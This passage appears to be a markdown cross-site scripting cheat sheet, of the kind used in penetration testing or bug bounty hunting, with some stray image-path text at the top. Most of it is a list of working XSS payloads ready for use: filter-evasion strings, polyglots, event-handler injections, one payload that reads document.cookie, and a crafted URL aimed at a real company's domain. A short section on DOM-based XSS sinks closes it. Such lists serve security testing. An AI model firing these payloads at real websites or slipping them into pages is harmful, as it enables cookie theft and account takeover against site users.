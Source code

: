   ```html
  javascr%09ipt:\u0061lert(1)
  javascr\tipt:\u0061lert(1) 
  ```

### If nothing works
```html
javascript:"/*\"/*`/*' /*</template>
</textarea></noembed></noscript></title>
</style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>
```
```html
<img/src/onerror=alert(origin)>
<img/src/onerror=\u0061lert?.()>
https://www.akamai.com/?xss=%3Cinput/onbeforeinput=%27a=alert,a(1)%27%3E
<details/open/ontoggle=JS>
"><iframe srcdoc="">
"'>%26%2300%3B</form><input+type="s"/onfocus="alert(document.cookie)"/autofocus>
">&#00;</form><input type&#61;"s" onfocus="alert(1)" autofocus>
<img/srcset=":"/onloadend=alert(1)>
<svg onload=location=name>
<a/href=javascript&colon;alert()>click
<d3v/onauxclick=[origin].some(confirm)>click
<d3v/onauxclick=(((confirm)))``>click
<x/onauxclick=a=eval,a(prompt(1))>here
<d3v/onmouseleave=[origin].some(confirm)>click
<details/open/ontoggle=(confirm)()//
```
```html
JavaScript://%250Aalert?.(1)//'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->
```
```html
<form><button formaction="javascript:alert(origin)">CliekMe</button></form>
```


# Dom-based
- To check if characters like `<` are encoded or no, find the reflected element by browser **inspector**, then copy the inner HTML, and paste it in a notepad.
  - If `<` is encoded (`&lt;`), We can use unicode in Javascript context
    - `<`  →  `\u003C` or `\74`
    - `>`  →  `\u003E` or `\76`
- Search for **Sink** *(Location that the data is passed into and get executed)* in JavaScript files. 
  ```javascript
  // Javascript execution sinks
  eval(payload)                
  setTimout(payload,100)
  <div onclick="payload">
  
  // Javascript URI sinks
  document.location = payload
  location.href = payload
  location.replace = payload
  window.open = payload
  windows.location = payload
  
  // HTML execution sinks
  htmlElement.innerHTML=payload
  document.write(payload)
  
  // HTML modification to behavior change
  (element).srk
  ```